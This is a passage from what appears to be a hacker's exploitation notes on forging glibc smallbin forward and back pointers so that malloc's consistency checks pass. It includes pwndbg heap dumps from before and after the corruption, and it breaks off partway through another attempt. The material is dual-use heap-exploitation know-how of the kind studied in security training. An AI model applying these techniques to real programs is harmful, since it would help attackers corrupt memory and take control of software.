 The problem is that `malloc` breaks because it tries to use a free block at `0x1233910` and the free block's back pointer is to null. As a first attempt to fix the problem, I tried having the two free blocks point to each other in a loop. Reading through the `malloc.c` source code, when a smallbin is allocated there's a check that the `bck` pointer for the smallbin matches the `fwd` pointer for the bin that its `bck` pointer is pointing to. There's no check that the `fwd` pointer for the smallbin is to the first smallbin in the list of smallbins of the appropriate size (i.e. there's a smallbin in the arena with a `bck` pointer pointing to `0x1233910` above). SO I just set `0x1233910` (i.e. the fourth bin in the heap section I'm overwriting) to point back to `0x12338d0` (the second bin), and set the second bin to point forward to the fourth bin. The other two pointers for those bins can be anything, and as a check that I'm right about this and won't get a seg fault, I made them null.

(The first pointer in each entry in the above heap sections should also be `0x6014c0`, that was a typo.)

Now I had, before the write:
```code
pwndbg> d/20xg 0x16c78b0
0x16c78b0:	0x00000000006014c0	0x0000000000000021
0x16c78c0:	0x00000000016d1640	0x0000000000000000
0x16c78d0:	0x000000150000000c	0x0000000000000021
0x16c78e0:	0x00000000016fc870	0x00000000016c3790
0x16c78f0:	0x0000000000000020	0x0000000000000020
0x16c7900:	0x00000000016c12a0	0x0000000000000000
0x16c7910:	0x0000001d0000000c	0x0000000000000021
0x16c7920:	0x0000000001701660	0x00000000016f4230
0x16c7930:	0x0000000000000020	0x0000000000000020
0x16c7940:	0x00000000016d1650	0x0000000000000000
```

and after the write:

```code
pwndbg> x /20xg 0x16c78b0
0x16c78b0:	0x00000000006014c0	0x0000000000000021
0x16c78c0:	0x0000000000000000	0x0000000000000000
0x16c78d0:	0x000000150000000c	0x0000000000000021
0x16c78e0:	0x00000000016c7910	0x0000000000000000
0x16c78f0:	0x0000000000000020	0x0000000000000020
0x16c7900:	0x0000000000000000	0x0000000000000000
0x16c7910:	0x0000001d0000000c	0x0000000000000021
0x16c7920:	0x0000000000000000	0x00000000016c78d0
0x16c7930:	0x0000000000000020	0x0000000000000020
0x16c7940:	0x0000000000000000	0x0000000000000000
```

My code then broke again in a different spot in `malloc.c`, and it's because the `bck` pointer for chunk 2 didn't match the `fwd` pointer for the thing that it's pointing back to. Of course it didn't, the back pointer was null. This happened during allocation of chunk 2. Okay, lesson learned: I wanted chunk 2 to point "back" to chunk 4, and chunk 4 to point "forward" to chunk 2.

Here's the next attempt, before the write:

```code
pwndbg> x /26xg 0x25078b0
0x25078b0:	0x00000000006014c0	0x0000000000000021
0x25078c0:	0x0000000002511640	0x0000000000000000
0x25078d0:	0x000000150000000c	0x0000000000000021
0x25078e0:	0x000000000253c870	0x0000000002503790
0x25078f0:	0x0000000000000020	0x0000000000000020
0x2507900:	0x00000000025012a0	0x0000000000000000
0x2507910:	0x0000001d0000000c	0x0000000000000021
0x2507920:	0x0000000002541660	0x0000000002534230
0x2507930:	0x0000000000000020	0x0000000000000020
0x2507940:	0x0000000002511650	0x0000000000000000
0x2507950:	0x0000001800000010	0x0000000000000021
0x2507960:	0x00000000025203e0	0x0000000000000000
```
